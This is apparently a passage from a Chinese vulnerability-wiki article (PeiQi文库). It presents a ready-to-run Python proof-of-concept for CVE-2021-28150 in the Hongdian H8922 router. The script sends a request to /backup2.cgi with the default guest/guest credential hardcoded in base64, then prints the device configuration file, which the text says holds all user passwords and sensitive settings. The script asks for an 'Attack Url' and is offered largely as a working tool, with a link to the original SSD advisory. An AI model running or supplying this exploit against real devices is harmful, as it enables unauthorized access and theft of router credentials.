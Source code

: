 **其中配置文件中是含有所有用户密码以及敏感配置信息的**

```
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台命令执行漏洞 CVE-2021-28150                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/backup2.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/backup2.cgi.... \033[0m".format(target_url))
        if 'service webadmin' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取配置文件 \033[0m".format(target_url))
            print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4IS0jaIjSCjKb2dDiabMpyh0zDcGUylatVFP3cvuHJS7MSiaks7wE0KL1icfviaAvsKH3h9WjolBia5Lg/640?wx_fmt=png)

**参考链接：https://ssd-disclosure.com/ssd-advisory-hongdian-h8922-multiple-vulnerabilities/**

 ****五:  关于文库🦉****
